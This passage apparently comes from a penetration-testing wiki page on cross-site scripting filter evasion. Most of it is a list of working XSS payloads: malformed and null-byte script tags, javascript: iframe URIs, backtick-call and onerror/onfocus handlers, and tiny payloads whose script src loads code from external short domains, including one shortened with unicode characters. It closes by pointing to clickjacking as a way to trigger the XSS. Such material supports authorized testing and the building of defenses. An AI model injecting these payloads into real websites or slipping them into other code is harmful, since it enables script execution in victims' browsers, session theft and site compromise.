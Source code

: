 ```javascript
<svg><x><script>alert('1'&#41</x>

//Unexpected weird attributes
<script x>
<script a="1234">
<script ~~~>
<script/random>alert(1)</script>
<script      ///Note the newline
>alert(1)</script>
<scr\x00ipt>alert(1)</scr\x00ipt>

//Not closing tag, ending with " <" or " //"
<iframe SRC="javascript:alert('XSS');" <
<iframe SRC="javascript:alert('XSS');" //

//Extra open
<<script>alert("XSS");//<</script>

//Just weird an unexpected, use your imagination
<</script/script><script>
<input type=image src onerror="prompt(1)">

//Using `` instead of parenthesis
onerror=alert`1`

//Use more than one
<<TexTArEa/*%00//%00*/a="not"/*%00///AutOFocUs////onFoCUS=alert`1` //
```

### Length bypass (small XSSs)

{% hint style="info" %}
**More tiny XSS for different environments** payload [**can be found here**](https://github.com/terjanq/Tiny-XSS-Payloads) and [**here**](https://tinyxss.terjanq.me).
{% endhint %}

```html
<!-- Taken from the blog of Jorge Lajara -->
<svg/onload=alert``>
<script src=//aa.es>
<script src=//℡㏛.pw>
```

The last one is using 2 unicode characters which expands to 5: telsr\
More of these characters can be found [here](https://www.unicode.org/charts/normalization/).\
To check in which characters are decomposed check [here](https://www.compart.com/en/unicode/U+2121).

### Click XSS - Clickjacking

If in order to exploit the vulnerability you need the **user to click a link or a form** with prepopulated data you could try to [**abuse Clickjacking**](../clickjacking.md#xss-clickjacking) (if the page is vulnerable).
